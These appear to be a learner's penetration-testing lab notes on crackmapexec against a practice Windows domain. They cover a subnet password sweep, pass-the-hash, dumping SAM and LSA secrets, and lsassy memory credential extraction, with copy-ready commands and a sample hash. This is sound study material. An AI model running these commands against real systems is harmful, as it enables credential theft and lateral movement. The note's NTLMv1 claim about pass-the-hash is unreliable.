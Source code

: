  - Needed to install using `pimpmykali:
	- `git clone https://github.com/Dewalt-arch/pimpmykali`
	- `cd pimpmykali; sudo ./pimpmykali`
	- Choose option: `%` to install crackmapexec
	- Get help for smb using: `crackmapexec smb --help`

# Sweep the subnet using crackmapexec
---
- `crackmapexec smb 10.0.1.4/24 -u fcastle -d MARVEL.local -p Password1`
	- Domain `fcastle` user is present on both Punisher and Spiderman, therefore:
		- ![[Pasted image 20250329154733.png]]

# Pass the Hash attack using crackmapexec:
---
- Only works ==if hash is `NTLMv1`==
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth`
	- ![[Pasted image 20250329155406.png]]
- **Dumping SAM hashes:**
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- ![[Pasted image 20250329155628.png]]
- **Dumping LSA**
- ---
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`

	![[Pasted image 20250329160225.png]]

- Some of the secrets are important:
	- `DCC2` : We can take these hashes and try to crack them.
	- These are the ==**stored credentials from which someone logged in past**==.
	- **Could be expired passwords.**

- **More stuff**
- ---
- `crackmapexec -L`
	- `gpp_password` , `impersonation`, `keepass_files`, `keepass_discover`
	- **`LSASSY`**
		- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`
		- If there is any **==secret stored in memory of logged in users==**, we can see those.

# Stored Credentials using cmedb
---
- `cmedb`
- ![[Pasted image 20250329160550.png]]
- ![[Pasted image 20250329160559.png]]